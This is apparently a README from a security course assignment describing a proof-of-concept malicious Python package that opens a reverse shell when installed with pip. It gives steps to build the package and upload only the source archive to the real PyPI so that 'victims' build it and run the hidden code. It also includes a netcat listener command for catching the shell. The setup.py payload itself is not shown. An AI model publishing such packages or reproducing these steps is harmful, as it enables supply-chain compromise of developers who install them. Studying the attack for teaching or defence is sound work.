 # Explanation:

This is Simple Python Reverse Shell module. It is a poc of how attackers can exploit `pip install` by publishing a crafed malicious package to Pypi. For CMPT785 course assignment2.



### Build the package:

1. Install the package build process dependencies

​	`python -m pip install --user --upgrade setuptools wheel twine`

2. cd to the directory of setup.py, use this command to build the package

​	`python setup.py sdist bdist_wheel`

3. After build, remember either remove the `.whl` file from `/dist` folder or during the upload process, only upload the `.tar.xz` one. The reason is that we want victims' to build the package themselves in order to get the malicious code execute on victims' machine.  

​	`twine upload dist/*.tar.xz`

4. It will prompt you to enter your username and password in Pypi.org



### Simulate the attack:

Two terminal windows. (If two machines, change the code in setup.py)

Attacker: Listen on 1234 port with netcat`nc -lvp 1234`

Victim: Execute pip install command`pip install much_needed_py_package`

We can see in attacker's window, a reverse shell is estatblished.

![CleanShot 2023-04-08 at 23 18 14](https://user-images.githubusercontent.com/26541990/230758877-3ee9c521-3490-485d-b389-1d543e7c1719.png)

